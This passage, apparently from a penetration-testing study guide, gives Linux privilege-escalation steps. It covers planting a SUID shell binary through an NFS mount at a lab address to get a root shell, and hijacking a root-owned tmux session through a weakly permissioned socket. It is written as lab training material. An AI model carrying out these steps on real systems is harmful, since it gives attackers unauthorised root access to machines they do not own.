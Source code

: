 #### Compile the binary
```Shell
gcc shell.c -o shell
```

#### Mount the directory
```Shell
mount -t nfs 10.129.2.12:/tmp /mnt
```

```Shell
cp shell /mnt
```

```Shell
chmod u+s /mnt/shell
```

#### When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell
```Shell
ls
```
Ensure binary is in the `/tmp` folder

```Shell
./shell
```

### Hijacking Tmux Sessions
A user may leave a `tmux` process running as a privileged user, such as root set up with weak permissions, and can be hijacked

#### Create a new shared session and modify the ownership
```Shell
tmux -S /shareds new -s debugsess
```

```Shell
chown root:devs /shareds
```

#### Check for any running tmux processes
```Shell
ps aux | grep tmux
```

#### Confirm permissions
```Shell
ls -la /shareds
```

#### Review our group membership
```Shell
id
```
